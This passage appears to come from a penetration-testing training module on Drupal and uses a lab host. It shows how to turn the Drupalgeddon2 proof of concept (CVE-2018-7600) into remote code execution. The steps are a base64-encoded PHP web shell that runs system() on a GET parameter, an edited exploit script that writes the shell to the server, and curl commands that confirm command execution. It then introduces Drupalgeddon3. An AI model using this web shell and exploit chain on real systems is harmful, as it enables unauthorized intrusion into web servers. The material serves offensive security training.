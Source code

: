Now let's modify the script to gain remote code execution by uploading a malicious PHP file.

```php
<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>
```

```shell-session
$ echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K
```

Next, let's replace the `echo` command in the exploit script with a command to write out our malicious PHP script.

```shell-session
echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php
```

Next, run the modified exploit script to upload our malicious PHP file.

```shell-session
$ python3 drupalgeddon2.py 

################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/mrb3n.php
```

Finally, we can confirm remote code execution using `cURL`.

```shell-session
$ curl http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

***

## Drupalgeddon3

[Drupalgeddon3](https://github.com/rithchard/Drupalgeddon3) is an authenticated remote code execution vulnerability that affects [multiple versions](https://www.drupal.org/sa-core-2018-004) of Drupal core. It requires a user to have the ability to delete a node. We can exploit this using Metasploit, but we must first log in and obtain a valid session cookie.
